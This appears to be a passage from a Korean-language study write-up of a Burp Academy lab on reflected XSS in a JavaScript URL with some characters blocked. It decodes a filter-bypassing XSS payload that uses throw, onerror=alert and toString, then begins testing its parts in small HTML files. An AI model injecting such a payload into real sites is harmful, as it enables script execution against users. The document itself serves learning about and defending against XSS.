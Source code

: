 ## URL 디코딩 후 페이로드를 확인 
일단 페이로드를 URL 디코딩해보자. 다음과 같다. 

```js
'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
```

일단 주석 부분(`/**/`)은 스페이스 대신에 들어간 것으로 생각할 수 있다. 
이 페이로드에서 중요한 부분은 `x=x=>{throw/**/onerror=alert,1337},toString=x,window+''` 다. 나머지 부분은 에러를 나게 하지 않기 위해 붙여준 부분이다. 페이로드를 HTML 문서로 만들어서 하나씩 실행해가면서 분석해보자. 

## 테스트1: Javascript throw문
다음 코드를 html 파일로 저장한 후에 웹 브라우저로 열어본다. 

```html
<h1>Reflected XSS in a JavaScript URL with some characters blocked - Payload Study1</h1>

<!-- 테스트1: Javascript throw문 -->
<script>

throw 1337;

</script>
```

확인결과: 개발자 도구로 콘솔을 확인하면 에러가 출력되어 있다. 

![](/images/burp-academy-xss-27-study-1.png)

## 테스트2: throw와 콤마를 같이 사용하면 어떻게 되는가? 

```html
<h1>Reflected XSS in a JavaScript URL with some characters blocked - Payload Study2</h1>

<!-- 테스트2: throw와 콤마를 같이 사용하면 어떻게 되는가? -->
<script>

throw 1337, 1338;

</script>
```
